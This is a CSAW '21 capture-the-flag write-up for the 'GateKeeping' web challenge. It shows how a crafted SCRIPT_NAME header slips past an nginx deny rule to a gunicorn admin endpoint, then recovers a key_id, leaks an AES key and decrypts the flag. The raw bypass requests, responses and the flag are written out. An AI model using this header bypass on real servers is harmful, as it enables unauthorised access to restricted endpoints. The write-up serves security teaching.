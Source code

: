 ```yaml
---
title: GateKeeping - CSAW '21 Qualifier
date: 2021-09-14
author: Sayooj B Kumar
author_url: https://twitter.com/_1nt3rc3pt0r_
categories:
 - Web Exploitation
tags:
 - Nginx
 - CSAW Quals
---
```


**tl;dr**

+ Bypass nginx's DENY ALL using `SCRIPT_NAME`
+ Calculate key_id uploading `flag.txt.enc`
+ Leak the key and decrypt `flag.txt.enc`

<!--more-->

**Challenge points**: 395

**No of solves**: 133

**Solved by**:[1nt3rc3pt0r](https://twitter.com/_1nt3rc3pt0r_), [Az3z3l](https://twitter.com/Az3z3l)

## Challenge Description

My previous flag file got encrypted by some dumb ransomware. They didn't even tell me how to pay them, so I'm totally out of luck. All I have is the site that is supposed to decrypt my files (but obviously that doesn't work either).

**Source Code:** [here](source-code.zip)


## Solution

### Bypassing Nginx

`SCRIPT_NAME` is a header that is sent by the proxy to the backend.`SCRIPT_NAME` is used to set the request url's root path so that the application knows its virtual “location”. This may be an empty string , if the application corresponds to the “root” of the server.


```
GET /asf/admin/admin/key HTTP/1.1
Host: 172.17.0.2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
SCRIPT_NAME: /admin
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

In this case we are requesting `/asf/admin/admin/key` while SCRIPT_NAME is set to `/admin` which means forwarded request to backend will be `/admin/key`.

### key-id

```javascript
let decrypt = function() {
  const file = this.files[0];

  const reader = new FileReader();
  reader.onload = async function(evt) {
    let data = new Uint8Array(evt.target.result);

    let key_id = data.slice(0,16);
    key_id = buf2hex(key_id);

    data = data.slice(16);

    document.getElementById('result').innerHTML = '';
    let error = (e)=>{
      document.getElementById('result').innerHTML = `
      <div class="notification is-danger">
        ${e}
      </div>
      `;
    }

    try {
      let res = await fetch('/decrypt', {
        method:'POST',
        headers: {
          key_id
        },
        body: data
      });
      if (res.status === 200) {
        let dec_data = await res.blob();
        let a = document.createElement('a');
        a.setAttribute('href', URL.createObjectURL(dec_data));
        a.setAttribute('download', file.name.split('.').slice(0,-1).join('.'));
        document.body.appendChild(a);
        a.click();
        document.body.removeChild(a);
      } else if (res.status === 403) {
        error(`You must pay the ransom before you can decrypt your file!`);
      } else {
        throw "bad";
      }
    } catch(e) {
      error(`There was an error decrypting your file, please try again later!`);
    }
  }
  reader.readAsArrayBuffer(file);
}
```

As you can see that `key_id` is calculated and updated to the backend using javascript, which means we can upload any file and acquire the key from client-side(index.html).

As we have to decrypt`flag.txt.enc`we have to calculate`key_id`corresponding to`flag.txt.enc`this could be done by uploading`flag.txt.enc`and debugging javascript.The calculated`key_id`is `05d1dc92ce82cc09d9d7ff1ac9d5611d`


### Leaking the Key and decrypting flag

#### Request

```
GET /asf/admin/admin/key HTTP/1.1
Host: web.chal.csaw.io:5004
key_id: 05d1dc92ce82cc09d9d7ff1ac9d5611d
SCRIPT_NAME: /admin
```

#### Response

```
HTTP/1.1 200 OK
Server: nginx/1.18.0
Date: Sat, 11 Sep 2021 11:11:10 GMT
Content-Type: application/json
Content-Length: 75
Connection: close

{"key":"b5082f02fd0b6a06203e0a9ffb8d7613dd7639a67302fc1f357990c49a6541f3"}
```

#### Decrypting the flag

```python
@app.route('/decrypt', methods=['POST'])
def decrypt():
    key = binascii.unhexlify("b5082f02fd0b6a06203e0a9ffb8d7613dd7639a67302fc1f357990c49a6541f3")#key
    data = request.get_data()
    iv = data[:AES.block_size]

    data = data[AES.block_size:]
    cipher = AES.new(key, AES.MODE_CFB, iv)

    return cipher.decrypt(data)
```


## Flag

flag{gunicorn_probably_should_not_do_that}
